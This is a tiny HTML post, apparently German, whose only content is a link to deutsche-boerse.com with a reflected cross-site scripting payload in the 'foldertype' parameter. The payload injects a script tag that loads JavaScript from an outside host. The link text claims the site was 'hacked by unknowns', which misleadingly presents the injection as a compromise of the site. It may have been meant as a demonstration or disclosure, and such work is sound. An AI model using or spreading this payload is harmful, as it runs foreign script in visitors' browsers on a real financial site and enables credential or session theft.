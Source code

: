 <html><body><p>Ohne viel Drumrum:<br>

<a href="http://deutsche-boerse.com/dbag/dispatch/de/isg/gdb_navigation/home?module=InOverview_Equi&amp;wp=NL0000235190&amp;foldertype=%22%3E%3Cscript%20src=%22http://files.die-welt.net/s.js%22%3E&amp;wplist=NL0000235190&amp;active=overview&amp;wpbpl=" target="_blank">Deutsche-Boerse.com von Unbekannten gehackt!</a></p></body></html>
